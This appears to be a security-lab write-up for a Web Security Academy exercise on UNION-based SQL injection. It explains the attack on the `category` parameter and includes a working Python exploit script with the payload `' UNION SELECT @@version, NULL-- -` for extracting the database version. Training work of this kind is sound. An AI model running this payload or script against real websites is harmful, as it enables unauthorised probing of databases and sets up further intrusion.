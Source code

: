 ```yaml
---
title: 'SQLi Lab 4'
description: 'Using UNION-based SQL injection to extract database type and version on MySQL and Microsoft SQL Server.'
---
```



## SQL Injection: Extracting Database Type and Version

<div style="text-align: justify;">
  This lab demonstrated how SQL injection vulnerabilities can be exploited to reveal system-level information about the backend database. Specifically, the injection targeted a parameter using a `UNION SELECT` with the `@@version` system variable, which allowed the attacker to retrieve the database version—useful for tailoring further attacks based on the environment (e.g., MySQL vs. Microsoft SQL Server).

  The attack began by analyzing the application's request to the `/filter` endpoint, where the `category` parameter was found vulnerable to injection. By crafting a payload that appended a malicious SQL statement, the server responded with the version string embedded in the page content. This knowledge helps in identifying the DBMS and optimizing payloads for privilege escalation or data extraction.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works

- The `category` parameter is vulnerable to SQL injection.
- A crafted `UNION SELECT` query is used to inject `@@version` into the SQL query.
- The version string (e.g., `MySQL 5.x` or `Microsoft SQL Server`) is returned in the response.
- The script checks for known indicators like the word “ubuntu” to verify success.
- Minor adjustments may be needed depending on the lab environment's output.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli(url, payload):
    uri = '/filter?category='
    r = requests.get(url + uri + payload , verify=False, proxies=proxies)
    if "ubuntu" in r.text:
        return True
    else:
        return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        payload = '\' UNION SELECT @@version, NULL-- -'
    except IndexError:
        print("[-] Usage: %s <url>" %sys.argv[0])
        print('[-] Example: %s www.example.com ' % sys.argv[0])
        sys.exit(-1)    
        
    if exploit_sqli(url, payload):
        print("[+] SQL injection successful!")
    else:
        print("[-] SQL injection unsuccessful")        
```


<Comment />
